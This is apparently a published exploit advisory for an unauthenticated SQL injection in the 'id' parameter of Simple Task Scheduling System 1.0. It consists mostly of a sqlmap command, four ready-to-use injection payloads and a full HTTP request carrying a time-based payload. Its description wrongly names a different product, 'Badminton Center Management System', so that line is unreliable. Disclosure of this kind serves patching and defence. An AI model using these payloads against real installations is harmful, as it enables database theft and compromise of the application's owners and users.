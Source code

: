 # Exploit Title: Simple Task Scheduling System - 'id' SQL Injection (Unauthenticated)
# Date: 2022-05-13
# Exploit Author: Yusuf Kosan
# Vendor Homepage: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/tss.zip
# Version: 1.0
# Tested on: Windows 10 Pro + PHP 8.0.11, Apache 2.4.51

------------------------------------------------------------------------------------

1. Description:
----------------------

Badminton Center Management System allows SQL Injection via parameter 'id' in
/tss/admin/categories/manage_category.php. Exploiting this issue could allow an attacker to compromise
the application, access or modify data, or exploit latent vulnerabilities
in the underlying database.


2. Proof of Concept:
----------------------

In Burpsuite intercept the request from the affected page with
'id' parameter and save it like poc.txt Then run SQLmap to extract the
data from the database:

sqlmap.py -r poc.txt --dbms=mysql


3. Example payloads:
----------------------

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: id=test' AND 9297=(SELECT (CASE WHEN (9297=9297) THEN 9297 ELSE (SELECT 7413 UNION SELECT 9163) END))-- -

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=test' OR (SELECT 9795 FROM(SELECT COUNT(*),CONCAT(0x716a6a7a71,(SELECT (ELT(9795=9795,1))),0x717a766b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- sfrH

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=test' OR SLEEP(5)-- GpAd

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=test' UNION ALL SELECT CONCAT(0x716a6a7a71,0x50674e52555067637847655477786d547768554a727370717755764249787054587a794c4d586f6a,0x717a766b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -

4. Burpsuite request:
----------------------

GET /tss/admin/categories/manage_category.php?id=1%20%2b%20((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A))%2f*%27XOR(((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)))OR%27%7c%22XOR(((SELECT%201%20FROM%20(SELECT%20SLEEP(25))A)))OR%22*%2f%20%2f*%20e0e2126f-64a0-4978-8793-4a2a83505579%20*%2f HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=fmfcovf7hgik2ujtn44q1clij5
Referer: http://localhost/tss/admin/?page=categories
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.0 Safari/537.36

